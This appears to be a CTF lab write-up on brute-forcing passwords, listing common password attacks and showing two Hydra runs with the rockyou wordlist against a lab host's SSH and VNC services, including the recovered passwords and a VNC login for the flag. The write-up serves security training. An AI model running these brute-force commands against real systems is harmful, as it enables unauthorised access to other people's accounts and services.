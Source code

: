 ```yaml
---
title: Day 05 - Brute Force
desc: >-
  Day 5 covers topics related to brute-forcing passwords using Hydra in order to
  connect to remote services like SSH, RDP, and VNC.
---
```

## Introduction
Common attacks against passwords are presented below:

1. *Shoulder Surfing*: Observing and noting as a target inputs their credentials. This attack requires the least technical knowledge.

2. *Password Guessing*: People generally practice poor password practices by using personal details such as birth date or children's names as their passwords. Guessing the password of such users requires some knowledge of the target’s personal details.

3. *Dictionary Attack*: This approach expands on password guessing and attempts to include all valid words in a dictionary or a word list.

4. *Brute Force Attack*: This attack is the most exhaustive and time-consuming, where an attacker can try all possible character combinations.

Trying out `Hydra` example provided:

```console
┌──(siachen㉿kali)-[~/CyberSec/THM]
└─$ hydra -l alexander -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 10.10.232.4 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-05 09:20:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.232.4:22/
[22][ssh] host: 10.10.232.4   login: alexander   password: sakura
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 9 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-05 09:21:51
```

## CTF Questions

Used Hydra to brute-force VNC password. 

!!! note
    VNC does not require a user name.

```console
┌──(siachen㉿kali)-[/dev/shm]
└─$ hydra -P /usr/share/wordlists/rockyou.txt 10.10.232.4 vnc
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-05 09:26:45
[WARNING] you should set the number of parallel task to 4 for vnc services.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking vnc://10.10.232.4:5900/
[STATUS] 552.00 tries/min, 552 tries in 00:01h, 14343847 to do in 433:06h, 16 active
[5900][vnc] host: 10.10.232.4   password: 1q2w3e4r
[STATUS] attack finished for 10.10.232.4 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-05 09:29:10
```
Log-in to VNC using credentials found by Hydra. The flag is displayed on the desktop background image.